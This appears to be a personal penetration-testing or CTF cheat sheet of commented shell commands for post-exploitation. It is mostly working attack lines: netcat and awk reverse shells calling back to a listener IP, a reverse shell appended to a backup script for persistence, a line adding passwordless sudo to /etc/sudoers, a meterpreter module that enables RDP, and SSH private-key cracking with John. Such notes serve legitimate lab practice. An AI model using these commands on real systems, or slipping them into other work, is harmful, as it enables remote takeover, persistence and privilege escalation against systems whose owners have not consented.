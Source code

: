 # lets transfer a file from our machine to remote target via proxychains and scp
proxychains scp /home/kali/Shared/Opt-Tools/linux-exploit-suggester/linux-exploit-suggester.sh jeremy@10.185.11.127:/tmp

# we can also open a rdp session via meterpreter 
meterpreter > run post/windows/manage/enable_rdp

# adding jeremny to sudo users
echo “jeremy ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers

# netcat reverse shell one-liner
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.1.99 8888 >/tmp/f

# echo netcat reverse shell inside a file 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.1.99 8888 >/tmp/f" >> backup.sh


# open a ssh shell but dont load rc profile for unstable shell fix
ssh jeff@jeff.thm -t "bash --noprofile"


# using john to bruteforce ssh via private RSA key discovered, make sure to add private RSA text in a file name id_rsa before running john
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash

# base64 decode command  
echo 'string=' | base64 --decode

# base64 decode txt file 
base64 -d encodedData.txt

# awk rev shell for restricted servers (note: use burp suite to encode url then send request via repeater)
awk 'BEGIN {s = "/inet/tcp/0/10.13.1.99/1337"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
